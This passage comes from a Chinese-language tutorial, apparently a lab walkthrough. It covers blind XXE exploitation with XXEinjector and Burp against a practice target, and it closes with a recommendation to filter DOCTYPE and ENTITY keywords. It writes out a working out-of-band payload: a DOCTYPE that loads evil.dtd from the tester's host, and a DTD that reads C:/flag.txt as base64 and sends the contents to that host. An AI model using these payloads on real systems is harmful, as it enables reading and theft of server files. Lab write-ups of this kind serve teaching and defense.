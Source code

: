 ```

[+] Response with file/directory content received:
GET /?p=WFhFIFBheWxvYWQgRXhlY3V0ZWQgU3VjY2Vzc2Z1bGx5ISEh HTTP/1.0

[+] Retrieved data:
[+] Nothing else to do. Exiting.
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/xxe6.png)

可以看到工具已经将C:/flag.txt文件内容以base64编码的形式返回回来了，此时在工具的目录下会生成一个目录，里面保存着刚才读取文件的明文数据

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/xxe7.png)

XXEinjector 的功能远不止读个文件这么简单，还有其他更高级的功能，比如枚举目标端口、获取目标hash等等，在本文中关于 XXEinjector 就介绍到这里

不过既然 XXEinjector 可以很方便的利用这个漏洞，那在这里使用Burp可不可以呢？

我们先把 XXEinjector 所利用的Payload复制到Burp中，并把IP修改成自己的本地IP

```
<!DOCTYPE convert [ <!ENTITY % remote SYSTEM "http://192.168.5.9/evil.dtd">%remote;%int;%trick;]>  #本地IP
<data>4</data>
```

在本地www目录下写入evil.dtd文件，并开启本地的Web服务，这几步和本文前半部分的Blind XEE的套路都是一样的。

```
<!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=file:///C:/flag.txt">  #要读取的文件
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://192.168.5.9/?p=%payl;'>">  #本地IP
```

使用Burp发送数据包，但是靶机只是显示了200，并没有返回什么数据

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/xxe8.png)

这个时候打开本地的日志看看，注意是本地的日志，不是靶机，我的日志目录在Apache2.4.39\logs下，打开之后同样可以看到C:/flag.txt文件以base64编码的内容的

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/xxe9.png)

如果不想在日志中查看返回数据，修改evil.dtd中的本地IP端口与nc监听端口一致后，同样可以看到返回数据。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/xxe10.png)

虽然说使用 XXEinjector 还是 Burp 都是可以成功复现，不过很明显使用 XXEinjector 更为方便。

# 0x03 修复建议

## 1、过滤用户提交的XML数据

```
过滤关键词：<!DOCTYPE和<!ENTITY，或者SYSTEM和PUBLIC
```
